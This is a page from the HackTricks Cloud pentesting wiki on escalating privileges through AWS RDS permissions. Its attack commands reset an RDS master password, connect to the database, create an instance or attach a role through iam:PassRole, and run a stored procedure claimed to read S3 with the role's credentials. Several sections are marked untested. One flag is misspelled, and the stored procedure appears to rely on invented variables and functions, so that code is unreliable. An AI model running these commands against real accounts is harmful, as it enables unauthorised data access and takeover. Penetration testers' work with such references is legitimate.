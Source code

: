 # AWS - RDS Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Relational Database Service

For more information about RDS check:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
You will need to be able to **contact to the database** (they are usually only accessible from inside networks).
{% endhint %}

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

{% hint style="info" %}
TODO: Test
{% endhint %}

It's possible to generate a store procedure that abuses the RDS role to access other AWS services. For example to read a S3 bucket:

```sql
DELIMITER $$
CREATE PROCEDURE get_s3_object(IN bucket_name VARCHAR(255), IN object_key VARCHAR(255))
BEGIN
    -- Use the environment variables to set the AWS credentials
    SET @aws_access_key_id = @@global.rds_aws_access_key_id;
    SET @aws_secret_access_key = @@global.rds_aws_secret_access_key;
    SET @aws_session_token = @@global.rds_aws_session_token;

    -- Set the S3 bucket and object key
    SET @bucket = bucket_name;
    SET @key = object_key;

    -- Read the object from the S3 bucket
    SET @query = CONCAT("SELECT * FROM S3_OBJECT('",
                        "region=us-west-2;",
                        "bucket=", @bucket, ";",
                        "key=", @key, ";",
                        "access_key_id=", @aws_access_key_id, ";",
                        "secret_access_key=", @aws_secret_access_key, ";",
                        "session_token=", @aws_session_token, ";",
                        "')");

    PREPARE stmt FROM @query;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```

Execute the stored procedure to **read the object from the S3** bucket:

```sql
CALL get_s3_object('my-bucket', 'my-object-key');
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
